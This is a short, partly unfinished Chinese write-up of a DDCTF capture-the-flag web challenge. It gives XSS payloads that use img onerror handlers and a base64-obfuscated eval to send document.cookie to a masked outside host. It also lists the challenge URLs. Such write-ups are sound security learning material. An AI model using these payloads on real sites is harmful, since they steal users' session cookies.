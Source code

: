 ## 0x05. Web 5 - 欢迎报名 DDCTF
### 题目
> 欢迎报名DDCTF  
> http://117.51.147.2/Ze02pQYLf5gGNyMn/  
> 
> 提示：XSS不是获取cookie  
> 提示2：之后是注入  

### 解题过程
TODO

### 涉及资料
- 源代码
  - [完整通关脚本](./index.js)
- 知识点


### xss script
```javascript
'eval(atob(\'' + btoa('window.location=\'http://---.---.---.---:----/\' + document.cookie') + '\'))'
```

```html
yelo</span><img src="http://---.---.---.---:----/ping">
yelo</span><img onerror="window.location = 'http://---.---.---.---:----/' + document.cookie">
yelo</span><img onerror="eval(btoa(('...'))">
```

- http://117.51.147.2/Ze02pQYLf5gGNyMn/admin.php
- http://139.199.107.193/hint.php

### EOF
[回到目录](../../readme.md)
